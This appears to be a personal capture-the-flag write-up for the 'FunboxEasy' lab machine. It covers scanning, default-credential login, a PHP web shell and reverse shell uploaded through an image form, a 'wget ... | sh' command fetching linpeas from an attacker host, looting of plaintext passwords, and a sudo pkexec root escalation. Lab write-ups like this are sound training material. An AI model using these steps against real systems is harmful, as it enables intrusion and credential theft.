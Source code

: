 # FunboxEasy Notes

### Enumeration
- whatweb
	- Apache 
	- Ubuntu OS

- Nmap 
	- quick scan 
		- 80 -> HTTP (Apache httpd 2.4.41)
		- 22 -> SSH (OpenSSH 8.2p1)
	- full-scan (additional found)
		- 33060 -> MySQL??

- uniscan
	- /admin
		- index
		- home
	- /secret
	- potential SQLi's:
		- /store/book.php

- Manual inspection
	- looks like it was made by project world
		- googling project world shows the credentials are admin:admin t the store admin page

### Foothold
- got access to the /store/admin with admin:admin
- the add book functionality allows the upload of a image
	- allowed to upload a webshell -> /usr/share/webshells/php/simple-backdoor.php
- use burp to figure out where the img is being up 
	- browse to location with ?cmd=ls 
	- which nc shows the machine has nc 

- ../../database/readme.txt.txt
	- from ../../../dbconnection.php -> localhost, crm, crm, crm
	- email: nghi.lethanh2@cou.fi

- use the same process to upload a revshell
	- /usr/share/webshells/php/php-rev-shell.php

### Priv Esc 
- on the machine: 
	- upgrade shell
		-  ```$ which python3 
			/usr/bin/python3
			$ python3 -c "import pty; pty.spawn('/bin/bash');"```
 - run linpeas: 
	 - start python server in dir with linpeas: 
		- ```python -m http.server 80```
	- get linpeas from host machine and pipe to sh: 
		- ```wget http://192.168.49.196/linpeas.sh | sh ```
		- shows interesting user 'tony' on system 
- go to /home/tony 
	- can see the file password.txt
		- all creds in file: 
			- ssh: yxcvbnmYYY
			- gym/admin: asdfghjklXXX
			- /store: admin@admin.com admin

- ssh -> tony@{ip}
	- sudo -l 
		- check gtfobins
			- sudo pkexec /bin/sh 

- proof.txt file: 
	- ![[../imgs/Pasted image 20220412162128.png]]

